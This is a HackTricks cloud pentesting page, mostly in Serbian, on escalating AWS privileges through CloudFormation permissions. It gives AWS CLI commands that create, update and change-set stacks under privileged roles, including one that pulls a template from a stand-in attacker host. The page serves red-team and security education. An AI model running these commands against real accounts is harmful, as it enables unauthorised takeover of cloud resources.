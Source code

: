 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Za više informacija o cloudformation, proverite:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Napadač sa ovim dozvolama **može eskalirati privilegije** kreiranjem **CloudFormation stack-a** sa prilagođenim šablonom, hostovanim na njihovom serveru, da **izvrši akcije pod dozvolama određenog rola:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na sledećoj stranici imate **primer eksploatacije** sa dodatnom dozvolom **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potencijalni uticaj:** Privesc na servisnu ulogu cloudformation-a koja je navedena.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

U ovom slučaju možete **zloupotrebiti postojeći cloudformation stack** da ga ažurirate i eskalirate privilegije kao u prethodnom scenariju:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` dozvola može da se koristi da **dajte sebi `UpdateStack` dozvolu** nad stakom i izvršite napad.

**Potencijalni uticaj:** Privesc na cloudformation servisnu ulogu koja je navedena.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ako imate ovu dozvolu, ali **nemate `iam:PassRole`**, i dalje možete **ažurirati stakove** koji se koriste i zloupotrebiti **IAM uloge koje su već povezane**. Proverite prethodni odeljak za primer eksploatacije (samo nemojte navoditi nijednu ulogu u ažuriranju).

Dozvola `cloudformation:SetStackPolicy` može da se koristi da **dajte sebi `UpdateStack` dozvolu** nad stakom i izvršite napad.

**Potencijalni uticaj:** Privesc na cloudformation servisnu ulogu koja je već povezana.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Napadač sa dozvolama da **prođe ulogu i kreira & izvrši ChangeSet** može **da kreira/ažurira novi cloudformation stak i zloupotrebi cloudformation servisne uloge** baš kao sa CreateStack ili UpdateStack.

Sledeća eksploatacija je **varijacija**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) koristeći **ChangeSet dozvole** za kreiranje staka.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Dozvola `cloudformation:SetStackPolicy` može se koristiti za **dodeljivanje sebi `ChangeSet` dozvola** nad stakom i izvršavanje napada.

**Potencijalni uticaj:** Privesc na cloudformation servisne uloge.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ovo je kao prethodna metoda bez prosleđivanja **IAM uloga**, tako da možete samo **zloupotrebiti već pridružene**, samo izmenite parametar:
```
--change-set-type UPDATE
```
**Potential Impact:** Privesc do cloudformation servisne uloge koja je već povezana.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napadač bi mogao zloupotrebiti ove dozvole da kreira/aktualizuje StackSets kako bi zloupotrebio proizvoljne cloudformation uloge.

**Potential Impact:** Privesc do cloudformation servisnih uloga.

### `cloudformation:UpdateStackSet`

Napadač bi mogao zloupotrebiti ovu dozvolu bez passRole dozvole da ažurira StackSets kako bi zloupotrebio povezane cloudformation uloge.

**Potential Impact:** Privesc do povezanih cloudformation uloga.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
